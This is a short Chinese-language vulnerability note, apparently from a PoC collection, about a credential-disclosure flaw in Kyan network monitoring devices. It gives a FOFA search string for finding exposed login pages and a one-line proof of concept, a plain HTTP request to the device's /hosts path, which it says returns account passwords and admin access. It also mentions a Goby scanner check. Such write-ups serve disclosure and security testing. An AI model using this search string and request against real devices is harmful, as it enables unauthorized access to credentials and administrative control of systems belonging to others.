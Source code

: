 # Kyan 网络监控设备 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

> [!NOTE]
>
> title="platform - Login"

## 漏洞复现

登录页面如下

![](image/ky-1.png)

POC

```
http://xxx.xxx.xxx.xxx/hosts
```

![](image/ky-2.png)

成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure

![](image/ky-3.png)

## 参考文章

https://www.secquan.org/BugWarning/1071987